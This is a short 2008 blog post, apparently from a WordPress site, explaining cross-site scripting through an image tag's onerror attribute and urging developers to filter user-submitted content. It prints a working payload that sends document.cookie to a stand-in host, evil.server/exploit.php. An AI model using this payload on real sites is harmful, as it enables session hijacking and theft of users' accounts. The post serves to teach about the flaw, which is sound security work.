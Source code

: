 ```yaml
---
author: aaron
comments: true
date: 2008-03-20 00:34:06+00:00
layout: post
slug: xss-with-img-onerror-attribute
title: XSS with Img OnError attribute
wordpress_id: 94
categories:
- javascript
- PHP
- security
tags:
- javascript
- PHP
- security
---
```


So much of my time is spent worrying over the src or href tags on images and links - that I sometimes forget about the other attributes.

Imagine being able to make an image which has no black-flagged content in the src but yet can still make a remote request, logging the user's cookie information?  Thats right - this can be done - using the 'onerror' attribute of an image.

What you need to do is to create an image link that is obviously broken or empty.  Then, javascript handles such events by throwing an error for that element.  Add an item to the onerror attribute to request a remote URL as your images src - which you add on document.cookie.  The remote script logs all requests, and then displays an image.

Check out the code below:

Source page without proper filtering:

    
    <html>
    <body>
    <h1>test</h1>
    <h2>asdf</h2>
    <img onerror="this.src='http://evil.server/exploit.php?'+document.cookie" src=""></img>
    </body>
    </html>



Then, on evil.server, place your image.  Finally, top it off with the following code in exploit.php




Easy as that.  Just another reminder to properly filter your use submitted content.
